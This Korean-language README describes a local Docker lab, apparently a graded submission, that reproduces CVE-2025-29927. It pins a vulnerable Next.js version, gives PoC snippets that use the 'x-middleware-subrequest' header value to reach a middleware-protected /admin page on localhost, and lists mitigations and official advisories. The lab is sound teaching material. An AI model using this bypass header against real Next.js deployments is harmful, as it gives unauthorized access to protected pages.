




# CVE-2025-29927 Next.js Middleware Authorization Bypass Lab

> **로컬 Docker 실습 전용 경고**  
> 이 제출물은 CVE-2025-29927을 학습 목적으로 재현하기 위한 로컬 실습 환경입니다. 앱과 PoC의 대상은 `http://127.0.0.1:3000`으로 고정되어 있으며 외부 서버나 제3자 시스템에 요청하지 않습니다. 검증 범위는 보호 페이지의 `PROTECTED CONTENT` 문자열 확인으로 제한하고, 명령 실행, reverse shell, 파일 탈취 기능은 포함하지 않습니다.

## 취약점 요약

CVE-2025-29927은 Next.js Middleware의 authorization bypass 취약점입니다. 특정 취약 버전에서 외부 요청에 `x-middleware-subrequest` 헤더가 포함되면 Middleware 실행이 우회될 수 있고, 인증 또는 권한 검사를 Middleware에만 의존하는 보호 경로가 직접 응답될 수 있습니다.

이 실습은 공식 CVE와 GitHub Advisory에서 설명하는 Middleware 우회 조건을 로컬에서 재현합니다. 취약 버전은 `package.json`에서 Next.js `15.2.2`로 정확히 고정했습니다.

## 환경 구성

- Framework: Next.js App Router
- Next.js: `15.2.2`
- React: `19.0.0`
- Runtime: Node.js 20 기반 Dockerfile
- 실행 방식: Docker Compose
- 접속 주소: `http://127.0.0.1:3000`
- 포트 바인딩: `127.0.0.1:3000:3000`
- 컨테이너 이름: `cve-2025-29927-lab`
- 로컬 이미지 태그: `cve-2025-29927-lab:local`
- 재시작 정책: `no`
- 파일 인코딩: UTF-8

이 제출물은 외부에서 만들어진 취약 실습 이미지를 사용하지 않습니다. `docker compose up --build --force-recreate` 실행 시 현재 저장소의 `Dockerfile`, `package.json`, 애플리케이션 소스 파일을 이용해 로컬 이미지를 직접 빌드합니다.

## 취약 조건

- 취약한 Next.js 버전 `15.2.2` 사용
- `/admin` 경로 접근 제어를 `middleware.js`에서만 수행
- `auth` 쿠키 값이 `authenticated`인 경우에만 `/admin` 정상 접근 허용
- 인증 쿠키가 없으면 `/login`으로 리다이렉트
- `/admin` 페이지 자체에는 별도 인증 검사 없음
- PoC는 `x-middleware-subrequest` 헤더 포함 여부에 따른 응답 차이만 확인

## 재현 절차

아래 명령은 PowerShell 기준이며, 제출물을 수정하지 않은 상태에서 그대로 실행할 수 있습니다.

1. 터미널 1에서 Docker Compose로 환경을 빌드하고 실행합니다.

   ```powershell
   docker compose up --build --force-recreate
   ```

2. 브라우저에서 홈 화면을 확인합니다.

   ```text
   http://127.0.0.1:3000
   ```

3. 브라우저에서 `/admin`에 접근합니다. 인증 쿠키가 없으므로 `/login` 페이지로 리다이렉트되는 것이 정상입니다.

   ```text
   http://127.0.0.1:3000/admin
   ```

4. 터미널 2에서 PowerShell PoC를 실행합니다.

   ```powershell
   powershell -ExecutionPolicy Bypass -File .\poc\poc.ps1
   ```

5. Python 런처가 설치된 환경에서는 Python PoC도 실행합니다.

   ```powershell
   py -3 .\poc\poc.py
   ```

   `py` 런처가 없고 `python` 명령이 정상 동작하면 아래 명령을 사용할 수 있습니다.

   ```powershell
   python .\poc\poc.py
   ```

6. 실습 종료 후 컨테이너를 중지합니다.

   ```powershell
   docker compose down
   ```

## PoC 코드

PowerShell PoC는 `poc/poc.ps1`에 포함되어 있습니다. 일반 요청으로 `/admin` 접근이 차단되는지 확인한 뒤, `x-middleware-subrequest` 헤더를 포함한 요청으로 보호 콘텐츠 노출 여부를 확인합니다.

```powershell
$Target = "http://127.0.0.1:3000"
$ProtectedPath = "/admin"
$BypassHeaderValue = "middleware:middleware:middleware:middleware:middleware"
$ProtectedMarker = "PROTECTED CONTENT"
```

Python PoC는 `poc/poc.py`에 포함되어 있습니다. 대상 주소는 외부 입력을 받지 않고 `http://127.0.0.1:3000`으로 고정되어 있습니다.

```python
TARGET = "http://127.0.0.1:3000"
PROTECTED_PATH = "/admin"
BYPASS_HEADER_VALUE = "middleware:middleware:middleware:middleware:middleware"
PROTECTED_MARKER = "PROTECTED CONTENT"
```

두 PoC 모두 상태 코드와 응답 본문을 출력하고, 성공 조건으로 `PROTECTED CONTENT` 문자열 포함 여부를 확인합니다.

## 실행 결과

PowerShell PoC 실행 결과 요약:

```text
[정상 요청 결과]
Status Code: 307
Location: /login
Response Body: /login
Result: PROTECTED CONTENT marker not found.

[x-middleware-subrequest 헤더 요청 결과]
Status Code: 200
Response Body: HTML response containing CVE-2025-29927 PROTECTED CONTENT
Result: PROTECTED CONTENT marker found.
```

Python PoC 실행 결과 요약:

```text
[정상 요청 결과]
Status Code: 307
Response Body: /login
Result: PROTECTED CONTENT marker not found.

[x-middleware-subrequest 헤더 요청 결과]
Status Code: 200
Response Body: HTML response containing CVE-2025-29927 PROTECTED CONTENT
Result: PROTECTED CONTENT marker found.
```

위 결과에서 첫 번째 요청은 인증 쿠키가 없기 때문에 `/login`으로 리다이렉트됩니다. 두 번째 요청은 `x-middleware-subrequest` 헤더가 포함되어 Middleware 우회 여부를 확인하며, 응답 본문에서 `CVE-2025-29927 PROTECTED CONTENT` 문자열이 확인됩니다.

## 스크린샷

스크린샷은 저장소 내부 `screenshots` 폴더에 포함했으며, README에서는 상대경로로만 참조합니다. 개인 포크, CDN, 외부 이미지 URL은 사용하지 않습니다.

### PowerShell PoC 실행 화면 1



### PowerShell PoC 실행 화면 2



### Python PoC 실행 화면 1



### Python PoC 실행 화면 2



## 대응 방안

- Next.js를 보안 패치가 포함된 버전으로 업그레이드합니다.
- 공식 권고 기준으로 Next.js `15.x`는 `15.2.3` 이상을 사용합니다.
- Middleware만을 유일한 보안 경계로 두지 않고, 민감한 페이지와 API 핸들러 내부에서도 서버 측 인증 및 권한 검사를 수행합니다.
- 프록시, 로드 밸런서, 애플리케이션 경계에서 외부 요청의 `x-middleware-subrequest` 헤더가 Next.js 애플리케이션까지 전달되지 않도록 필터링합니다.
- 배포 환경에서 공식 보안 권고와 패치 버전을 주기적으로 확인합니다.

## 평가 관점

### Reproducibility

- `docker compose up --build --force-recreate` 하나로 로컬 실습 환경이 완성됩니다.
- 제출물의 `Dockerfile`로 직접 이미지를 빌드하며, 제3자가 만든 취약 실습 이미지를 사용하지 않습니다.
- PoC 대상 주소는 `http://127.0.0.1:3000`으로 고정되어 있습니다.
- `docker-compose.yml`에는 `privileged` 권한이나 호스트 볼륨 마운트가 없습니다.
- 모든 텍스트 파일은 UTF-8로 저장되어 있습니다.

### Risk Score 관점

이 취약점은 인증되지 않은 원격 요청에서 Middleware 기반 인증/권한 검사를 우회할 수 있다는 점에서 위험도가 높습니다. 본 실습에서는 영향 범위를 보호 페이지 텍스트 노출 확인으로 제한했지만, 실제 서비스가 Middleware에만 접근 제어를 의존한다면 민감한 페이지나 API가 노출될 수 있습니다.

## 파일 구조

```text
.
|-- app
|   |-- admin
|   |   `-- page.js
|   |-- login
|   |   `-- page.js
|   |-- globals.css
|   |-- layout.js
|   `-- page.js
|-- poc
|   |-- poc.ps1
|   `-- poc.py
|-- screenshots
|   |-- Poc_1.png
|   |-- Poc_2.png
|   |-- py1.png
|   `-- py2.png
|-- .dockerignore
|-- .editorconfig
|-- .gitattributes
|-- Dockerfile
|-- docker-compose.yml
|-- middleware.js
|-- package.json
`-- README.md
```

## 종료 및 삭제 방법

컨테이너를 종료합니다.

```powershell
docker compose down
```

로컬 이미지까지 삭제하려면 아래 명령을 사용합니다.

```powershell
docker compose down --rmi local
```

## 공식 참고자료

- CVE Record: CVE-2025-29927
  - https://www.cve.org/CVERecord?id=CVE-2025-29927
- GitHub Advisory Database: GHSA-f82v-jwr5-mffw / CVE-2025-29927
  - https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
- National Vulnerability Database: CVE-2025-29927
  - https://nvd.nist.gov/vuln/detail/CVE-2025-29927
- Vercel Postmortem: Postmortem on Next.js Middleware bypass
  - https://vercel.com/blog/postmortem-on-next-js-middleware-bypass
